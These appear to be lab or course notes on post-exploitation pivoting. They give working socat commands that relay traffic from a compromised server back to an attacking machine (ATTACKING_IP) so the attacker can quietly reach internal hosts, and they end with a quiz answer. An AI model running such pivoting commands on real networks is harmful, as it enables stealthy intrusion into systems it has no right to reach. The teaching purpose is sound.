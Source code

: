 
  ### Method Port Forwarding -- Quiet

The previous technique is quick and easy, but it also opens up a port on the compromised server, which could potentially be spotted by any kind of host or network scanning. Whilst the risk is not massive, it pays to know a slightly quieter method of port forwarding with socat. This method is marginally more complex, but doesn't require opening up a port externally on the compromised server.

  1) First of all, on our own attacking machine, we issue the following command:

```
  command: socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```
This opens up two ports: 8000 and 8001, creating a local port relay. What goes into one of them will come out of the other. For this reason, port 8000 also has the fork and reuseaddr options set, to allow us to create more than one connection using this port forward.


  2) Next, on the compromised relay server (172.16.0.5 in the previous example) we execute this command:
 
 ```
 command: ./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```

This makes a connection between our listening port 8001 on the attacking machine, and the open port of the target server. To use the fictional network from before, we could enter this command as:

```
 command: ./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &
```

This would create a link between port 8000 on our attacking machine, and port 80 on the intended target (172.16.0.10), meaning that we could go to localhost:8000 in our attacking machine's web browser to load the webpage served by the target: 172.16.0.10:80!

This is quite a complex scenario to visualise, so let's quickly run through what happens when you try to access the webpage in your browser:

 - The request goes to 127.0.0.1:8000

 - Due to the socat listener we started on our own machine, anything that goes into port 8000, comes out of port 8001

 - Port 8001 is connected directly to the socat process we ran on the compromised server, meaning that anything coming out of port 8001 gets sent to the compromised server, where it gets relayed to port 80 on the target server.


The process is then reversed when the target sends the response:
 
- The response is sent to the socat process on the compromised server. What goes into the process comes out at the other side, which happens to link straight to port 8001 on our attacking machine.

- Anything that goes into port 8001 on our attacking machine comes out of port 8000 on our attacking machine, which is where the web browser expects to receive its response, thus the page is received and rendered.

```
  Q1:  Which socat option allows you to reuse the same listening port for more than one connection?
  A: reuseaddr
``` 
